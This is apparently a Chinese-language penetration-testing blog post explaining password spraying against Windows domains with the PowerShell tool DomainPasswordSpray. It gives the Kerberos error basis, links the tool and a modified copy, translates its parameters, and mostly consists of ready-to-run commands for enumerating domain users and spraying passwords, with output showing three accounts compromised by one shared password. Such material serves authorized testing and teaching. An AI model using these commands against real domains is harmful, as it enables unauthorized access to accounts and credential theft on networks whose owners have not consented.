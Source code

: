```yaml
---
title: "内网渗透-密码喷洒Password Spraying"
date: 2020-08-31 11:56:23 +0800
category: 内网渗透
tags: [内网,域]
excerpt: 内网渗透-密码喷洒Password Spraying
---
```

# Password Spraying
## 原理
+ 本质上，通过以下Kerberos错误代码来加以利用
|用户状态|Kerberos错误|
|----|----|
|密码错误|KDC_ERR_PREAUTH_FAILED|
# 利用

## DomainPasswordSpray
DomainPasswordSpray是用PowerShell编写的工具，用于对域用户执行密码喷洒攻击。默认情况下，它将利用LDAP从域中导出用户列表，然后扣掉被锁定的用户，再用固定密码进行密码喷洒
+ https://github.com/dafthack/DomainPasswordSpray

----
以下内容来自:https://payloads.online/archivers/2018-05-02/1

![0x00][0x00]

**GitHub项目地址：https://github.com/dafthack/DomainPasswordSpray**

由于作者的脚本有一个小瑕疵，故此我改了一下，避免抛出了一些错误。

![0x01][0x01]

**优化后的地址：http://payloads.online/scripts/Invoke-DomainPasswordSpray.txt**


## 0x02 参数说明

在代码的开头就已经有介绍了，我简单汉化一下。


描述：该模块主要用于从域中收集用户列表。

* 参数： `Domain` 指定要测试的域名
* 参数： `RemoveDisabled` 尝试从用户列表删除禁用的账户  
* 参数： `RemovePotentialLockouts` 删除锁定账户 
* 参数： `UserList` 自定义用户列表(字典)。 如果未指定，这将自动从域中获取
* 参数： `Password` 指定单个密码进行口令测试
* 参数： `PasswordList` 指定一个密码字典
* 参数： `OutFile` 将结果保存到某个文件
* 参数： `Force` 当枚举出第一个后继续枚举，不询问

## 0x03 使用说明

使用例子：

`C:\PS> Get-DomainUserList`

该命令将从域中收集用户列表。

`C:\PS> Get-DomainUserList -Domain 域名 -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt`

该命令将收集域“域名”中的用户列表，包括任何未被禁用且未接近锁定状态的帐户。 它会将结果写入“userlist.txt”文件中

`C:\PS> Invoke-DomainPasswordSpray -Password Winter2016`

该命令将会从域环境中获取用户名，然后逐个以密码`Winter2016`进行认证枚举


`C:\PS> Invoke-DomainPasswordSpray -UserList users.txt -Domain 域名 -PasswordList passlist.txt -OutFile sprayed-creds.txt`

该命令将会从`users.txt`中提取用户名，与`passlist.txt`中的密码对照成一对口令，进行域认证枚举，登录成功的结果将会输出到`sprayed-creds.txt`

## 0x04 实战

### 获取域环境中的用户列表

**命令：**`C:\PS> Get-DomainUserList | Out-File -Encoding ascii userlist.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] There are 8 total users found.
[*] Created a userlist containing 8 users gathered from the current user's domain
```

获取的用户名：

```
C:\PS> type .\userlist.txt
Administrator
Guest
liyingzhe
krbtgt
Hack
testPass
webManager
dba
```

### 密码枚举

![0x02][0x02]

**命令：** `C:\PS> Invoke-DomainPasswordSpray -Domain 域名 -Password w!23456 -OutFile sprayed-creds.txt`

**输出：**

```
[*] Current domain is compatible with Fine-Grained Password Policy.
[*] Now creating a list of users to spray...
[*] There appears to be no lockout policy.
[*] Removing disabled users from list.
[*] There are 6 total users found.
[*] Removing users within 1 attempt of locking out from list.
[*] Created a userlist containing 6 users gathered from the current user's domain
[*] Password spraying has begun. Current time is 18:45
[*] This might take a while depending on the total number of users
1 of 6 users tested2 of 6 users tested3 of 6 users tested[*] SUCCESS! User:testPass Password:w!23456
4 of 6 users tested[*] SUCCESS! User:webManager Password:w!23456
5 of 6 users tested[*] SUCCESS! User:dba Password:w!23456
6 of 6 users tested[*] Password spraying is complete
[*] Any passwords that were successfully sprayed have been output to sprayed-creds.txt
```

枚举的结果：

```
C:\PS > type .\sprayed-creds.txt
testPass:w!23456
webManager:w!23456
dba:w!23456
```

[0x00]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x00.png
[0x01]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x01.png
[0x02]: https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-05-02/0x02.png